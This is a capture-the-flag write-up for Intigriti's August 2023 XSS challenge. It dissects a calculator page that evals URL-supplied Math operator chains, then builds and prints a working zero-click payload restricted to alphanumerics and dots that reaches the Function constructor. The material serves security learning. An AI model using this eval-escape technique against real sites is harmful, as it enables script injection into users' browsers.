










### Description
Find a way to execute `alert(document.domain)` on the challenge page.

#### The solution...
- Should work on the latest version of Chrome and Firefox.
- Should execute alert(document.domain).
- Should leverage a cross-site scripting vulnerability on this domain.
- Shouldn't be self-XSS or related to MiTM attacks.
- Should NOT use another challenge on the intigriti.io domain.
- Should require no user interaction.

#### Test your payloads down below and [on the challenge page here!](https://challenge-0823.intigriti.io/challenge/index.html)
Let's pop that alert!

### Code inspection

The website present itself as a math calculator where we can use trigonometric function and get the output however there are no numbers or mathematical operations such as multiplication, division, addition and subtraction

```js
(function(){
        name = 'Pure Functional Math Calculator'
        let next
        Math.random = function () {
          if (!this.seeds) {
            this.seeds = [0.62536, 0.458483, 0.544523, 0.323421, 0.775465]
            next = this.seeds[new Date().getTime() % this.seeds.length]
          }
          next = next * 1103515245 + 12345
          return (next / 65536) % 32767
        }
        console.assert(Math.random() > 0)

        const result = document.querySelector('.result')
        const stack = document.querySelector('.stack-block')
        let operators = []

        document.querySelector('.pad').addEventListener('click', handleClick)

        let qs = new URLSearchParams(window.location.search)
        if (qs.get('q')) {
          const ops = qs.get('q').split(',')
          if (ops.length >= 100) {
            alert('Max length of array is 99, got:' + ops.length)
            return init()
          }

          for(let op of ops) {
            if (!op.startsWith('Math.')) {
              alert(`Operator should start with Math.: ${op}`)
              return init()
            }

            if (!/^[a-zA-Z0-9.]+$/.test(op)) {
              alert(`Invalid operator: ${op}`)
              return init()
            }
          }

          for(let op of ops) {
            addOperator(op)
          }

          calculateResult()
        } else {
          init()
        }

        function init() {
          addOperator('Math.random')
        }

        function addOperator(name) {
          result.innerText = `${name}(${result.innerText})`
          operators.push(name)

          let div = document.createElement('div')
          div.textContent = `${operators.length}. ${name}`
          stack.prepend(div)
        }

        function calculateResult() {
          result.innerText = eval(result.innerText)
        }

        function handleClick(e) {
          let className = e.target.className
          let text = e.target.innerText
          
          if (className === 'btn-fn') {
            addOperator(`Math.${text}`)
          } else if (className === 'btn-ac') {
            result.innerText = 'Math.random()';
            stack.innerHTML = '<div>1. Math.random</div>'
            operators = ['Math.random']
          } else if (className === 'btn-share'){
            alert('Please copy the URL!')
            location.search = '?q=' + operators.join(',')
          } else if (className === 'btn-equal') {
            calculateResult()
          }
        }
      })()
```

Here’s a breakdown of this code that creates a simple calculator-like interface for performing calculations using various mathematical operators from the Math object. It allows users to build a sequence of mathematical operations and calculate the result.

- `(function(){ ... })()`: This is an immediately-invoked function expression (IIFE) that encapsulates the entire script. It ensures that the code within it is executed immediately after the script is loaded, providing a private scope for variables.
- `name = 'Pure Functional Math Calculator'`: This line assigns a string value to the global variable `name`, which seems to define the name of the calculator.
- `let next`: This declares a variable `next` using the `let` keyword, which will be used to generate pseudo-random numbers.
- `Math.random = function () { ... }`: This code snippet overrides the `Math.random` function to provide custom random numbers. It uses a linear congruential generator (LCG) algorithm to generate pseudo-random numbers based on a sequence of seed values. If no seeds are defined, it initialises them and generates subsequent random numbers using the LCG algorithm.
- `console.assert(Math.random() > 0)`: This line uses `console.assert` to ensure that the custom `Math.random` function generates numbers greater than 0.
- `const result = document.querySelector('.result')`: This line selects an HTML element with the class name `.result` and assigns it to the `result` constant. This element will display the result of the calculations.
- `const stack = document.querySelector('.stack-block')`: This line selects an HTML element with the class name `.stack-block` and assigns it to the `stack` constant. This element will display the stack of operators used in the calculations.
- `let operators = []`: This initializes an empty array called `operators` that will store the sequence of mathematical operators.
- `document.querySelector('.pad').addEventListener('click', handleClick)`: This line adds a click event listener to an element with the class name `.pad`. When clicked, the `handleClick` function will be executed.
- `let qs = new URLSearchParams(window.location.search)`: This creates a new `URLSearchParams` object to parse the query parameters in the URL.
- `if (qs.get('q')) { ... } else { ... }`: This block checks if there's a query parameter named `'q'` in the URL. If it exists, the code parses the query parameter to extract a sequence of operators and performs various checks on them. If the query parameter doesn't exist, the `init` function is called.
- `function init() { ... }`: This function initializes the calculator by adding the initial operator `'Math.random'`.
- `function addOperator(name) { ... }`: This function adds an operator to the sequence of operators, updates the display, and updates the stack of operators.
- `function calculateResult() { ... }`: This function evaluates the sequence of operators that is passed to the URL q parameter using the `eval` function and updates the result display.
- `function handleClick(e) { ... }`: This function handles the click events on various calculator buttons. Depending on the button clicked, it adds operators, clears the display, calculates the result, or generates a shareable URL.

As we can see the first thing that pops out immediately is the eval function which is used to calculate the output of the Mathematical expression that we pass. However, we cannot pass what we want to trigger an alert, instead, there are some rules we must follow

- The operator should start with `Math.`
- It must use this characters `!/^[a-zA-Z0-9.]+$/`

We can’t bypass these checks in any way, so we will have to trigger the XSS using only alphanumeric characters and dots.
If query parameter `q` contains a valid payload the expression gets evaluated automatically.



Now we must dig into the console to see members of `Math`. If you remember in the code the `Math.random` is being overridden to a custom function, let’s check if we can see it



Let’s see if we can display the function code in the calculator:



We can actually see the function with this syntax `q=Math.random.toString`. 

Now we can create the characters that we want, in this case using `Math.seeds`.`functionthatwewant.name.at` it’s going to print the first character of the name of the function so now we also need to store it somewhere and since we can’t create an array and store our values we have to use the existing one. The array that we are going to use is `Math.seeds` that stores the seeds values, we can clear it using `Math.seeds.pop`



#### Proof of concept

So our approach is the following: remove everything from the `Math.seeds`, store the characters we want and then join them together to call the valid function with the name we have created and so we have to get all the characters from `alert(document.domain)`

To put the characters inside the `Math.seeds` we have to use `Math.seeds.push`

Great! Now let’s try to see if we can pop and push a character inside the array

Let’s pop out all the elements and add a new character



Using `Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.toString` we can remove all the seeds from the array and verify it using `Math.seeds.toString`

So giving this value to q will result in displaying the character a `Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.at.name.at,Math.seeds.push,Math.seeds.toString`

The join normal behaviour when there is no separator given it’s that it’s going to split the characters at the `,` however if we could be able to pass a separator that would have the value of an empty string we would be able to concatenate all the characters in the array. 

We can craft a blank space using `Math.random.name.toString` and so now let’s try to join some characters altogether:
`Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.at.name.at,Math.seeds.push,Math.seeds.lastIndexOf.name.at,Math.seeds.push,Math.seeds.toString,Math.random.name.toString,Math.seeds.join`



Now the only problems we have are:
- We need to create characters which don't exist in function names like `(.)`
- `Array.push()` returns a new array length, which will create constant pain with `.toString()` and `.at()`

The only possible way to create special characters is `String.fromCharCode()`. The only problem we have is getting 40 using only `Math` methods and fields. The possible workaround for this is utilizing `Math.exp()` and `Math.expm1()` functions.

$$
e^{ln(40)} ~=40
$$

Now we need to get the approximate value of: 

$$
ln(40) \approx 3.688
$$

Let’s look for some function with a close result to 3.688, also we need it to work with low values, because we only have access to math constants and different function name lengths, the log2 is the most suitable function for our needs:

$$
2^{3.688} \approx 13
$$

We need a constant with a value of 13 here, lucky us we have localeCompare with the exact length of 13, so our equation looks like this: 

$$
\mathord{\sqsupset} x = |String.localeCompare.name|
\\
\lfloor e^{log_2(x)} \rfloor = 40
\\
\lceil e^{log_2(x)} \rceil = 41
$$

So we can get `(` and `)` just by using the single equation, but the second problem comes in place, since `Array.push` returns the new length of `Math.seeds` we should definitely work around this because either way our `toString(radix)` would have `radix` ≠ 10. 

$$
\mathord{\sqsupset} y = 6
\\
\mathord{\sqsupset} x = ln(f(y))
\\
e^x \approx 10
$$

The easiest way to get $x$ is $\sqrt{y} $ but we’ll get $e^x \approx 11$, we use `Math.expm1` function here, which implementation is $e^x - 1$. So our equation will look as follows:

$$
\mathord{\sqsupset} y = |Math.seeds.length| \\
\mathord{\sqsupset} x = \sqrt{y} \\
e^x - 1 \approx 10
$$

So, to get `()` in our result we use this function chain: 


Math.random.name.localeCompare.name.length.toString,\
Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.sqrt,Math.expm1,Math.random.name.localeCompare.name.length.toString,\
Math.log2,Math.exp,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push


Let’s put it in our q parameter to see if it would work

For the reason I explained above we need to put it first because since the function will evaluate what’s nested inside it could give us some problems so it’s better to put it at the beginning and then use `shift` to remove it to the array and since shift will pass the value to `push` we will actually `push` it when we need it



and then we shift the seeds when we need `(` because the shift is going to remove the first element and pass it to the next function called while pop is going to remove the last 

In this way we get `()alert` 

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.expm1,\
Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.floor,\
Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,\
Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,\
Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,\
Math.seeds.push,Math.seeds.toString,Math.random.name.toString,Math.seeds.toString,Math.random.name.toString,\
Math.seeds.join



Now we need to shift the first element and push it to get `)alert(`

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.sqrt,Math.expm1,Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,\
Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.E.constructor.name.at,\
Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.seeds.toString,\
Math.random.name.toString,Math.seeds.toString,Math.random.name.toString,Math.seeds.join

The new problem occurs when we have to create the `.` character, we will again rely on `String.fromCharCode`, now we need to get the value 46 from 15 somehow… Since $e$ is close enough to $2$ we can play with $e^x$ and $log_2(x)$. We’ve found the exact value of $x$ after different tests:

$$
log_2(e^{32}) \approx 46
$$

But how do we get 32 from 15? The easiest way to get 32 is by calling `Math.clz32(0)`, but how do we get the approximate value of 0? This is a trigonometric function.

$$
\mathord{\sqsupset} y = cos(15) \approx 0 
\\
\mathord{\sqsupset} x = Math.clz32(y)
\\
log_2(e^x) \approx 46
$$

So now our payload has this part `Math.cos,Math.clz32,Math.exp,Math.log2,Math.abs.name.constructor.fromCharCode,Math.seeds.push`. 

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.sqrt,Math.expm1,Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,\
Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,\
Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,\
Math.seeds.push,Math.clz32,Math.sqrt,Math.fround.name.at,Math.seeds.push,\
Math.cbrt,Math.acos.name.at,Math.seeds.push,Math.log10,Math.cos.name.at,Math.seeds.push,Math.cbrt,Math.trunc.name.at,\
Math.seeds.push,Math.log2,Math.expm1.name.at,Math.seeds.push,Math.log2,Math.seeds.at,Math.seeds.push,Math.log2,\
Math.trunc.name.at,Math.seeds.push,Math.cos,Math.trunc.name.at,Math.seeds.push,Math.cos,Math.clz32,Math.exp,\
Math.log2,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.asinh,Math.round,Math.seeds.find.name.at,\
Math.seeds.push,Math.asinh,Math.round,Math.seeds.isPrototypeOf.name.at,Math.seeds.push,Math.cos,Math.seeds.map.name.at,\
Math.seeds.push,Math.sin,Math.seeds.at.name.at,Math.seeds.push,Math.sin,Math.seeds.includes.name.at,Math.seeds.push,\
Math.cbrt,Math.seeds.find.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.random.name.toString,Math.seeds.join



Unfortunately, the current payload isn't 0-click and it won't work until you press the `=` button. 

Using `Math.constructor.constructor` we can create the `Function` object, then we can call it using the `Math.constructor.call.call`.

The final 0-click payload looks like this:

### 0-click payload

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.expm1,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.expm1,\
Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,\
Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,\
Math.seeds.push,Math.acos,Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,\
Math.E.constructor.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,\
Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.clz32,Math.sqrt,\
Math.fround.name.at,Math.seeds.push,Math.cbrt,Math.acos.name.at,Math.seeds.push,Math.log10,\
Math.cos.name.at,Math.seeds.push,Math.cbrt,Math.trunc.name.at,Math.seeds.push,Math.log2,Math.expm1.name.at,\
Math.seeds.push,Math.log2,Math.seeds.at,Math.seeds.push,Math.log2,Math.trunc.name.at,Math.seeds.push,\
Math.cos,Math.trunc.name.at,Math.seeds.push,Math.cos,Math.clz32,Math.exp,Math.log2,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.asinh,Math.round,Math.seeds.find.name.at,Math.seeds.push,Math.asinh,Math.round,\
Math.seeds.isPrototypeOf.name.at,Math.seeds.push,Math.cos,Math.seeds.map.name.at,Math.seeds.push,Math.sin,\
Math.seeds.at.name.at,Math.seeds.push,Math.sin,Math.seeds.includes.name.at,Math.seeds.push,Math.cbrt,\
Math.seeds.find.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.random.name.toString,Math.seeds.join,\
Math.constructor.constructor,Math.constructor.call.call


